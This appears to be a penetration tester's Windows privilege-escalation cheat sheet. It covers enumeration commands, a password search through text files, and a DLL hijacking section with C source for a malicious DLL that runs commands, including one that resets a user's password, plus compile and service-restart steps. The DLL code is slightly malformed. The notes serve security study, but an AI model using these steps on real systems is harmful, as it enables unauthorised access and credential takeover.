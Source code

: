 # Windows

## Scripts

- WinPEAS -> [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- PowerUp -> [Link](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- Windows Exploit Suggester -> [Link](https://github.com/bitsadmin/wesng)

## User enumeration

```console
Current user privileges:
$ whoami /priv

List users:
$ net users

List details of a user:
$ net user <username>

Other logged in Users:
$ qwinsta

User group on system:
$ net localgroup

List memers of a specific group:
$ net localgroup <groupname>
```

## System information

```console
$ systeminfo
$ systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

$ hostname
```

## Searching files

```console
$ findstr /si password *.txt
findstr: Searches for patterns of text in files.
/si: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
password: The command will search for the string “password” in files
*.txt: The search will cover files that have a .txt extension
```

## Vulnerable Software

```console
$ wmic qfe get Caption,Description,HotFixID,InstalledOn
$ wmic service get name,displayname,pathname,startmode
$ wmic product get name,version,vendor
$ wmic service list brief | findstr  "Running"
```
Check for Vulns :
- Searchsploit
- Metasploit
- Exploit-DB
- Github
- Google

## Network connections

```console
C:\Users\user\Desktop>netstat -ano
-a: Displays all active connections and listening ports on the target system.
-n: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
-o: Displays the process ID using each listed connection.

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       68
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1092
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1348
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1636
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2288
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2468
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49681          0.0.0.0:0              LISTENING       788
```

Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service.

## Sheduled tasks

```console
$ schtasks /query /fo LIST /v
```

## DLL hijacking

Windows follow one og these concepts:
- SafeDllSearchMode enabled:
  - The directory from which the application loaded.
  - The system directory. Use the GetSystemDirectory function to get the path of this directory.
  - The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
  - The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
  - The current directory.
  - The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

- SafeDllSearchMode is disabled
  - The directory from which the application loaded.
  - The current directory.
  - The system directory. Use the GetSystemDirectory function to get the path of this directory.
  - The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
  - The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
  - The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key.     The App Paths key is not used when computing the DLL search path.

Finding Vulnerarbilities with `ProcMon` or any script like winPEAS
ProcMon needs admin privileges

Creating the malicious DLL file with Payload:

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;

    Payload for changing PW:
    "cmd.exe /k net user jack Password11"
}
```
use minqw compiler to generate dll file:
```
$ apt install gcc-mingw-w64-x86-64
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

start and restart the llsvc
$ sc stop dllsvc & sc start dllsvc
```

## Unquoted Service Path




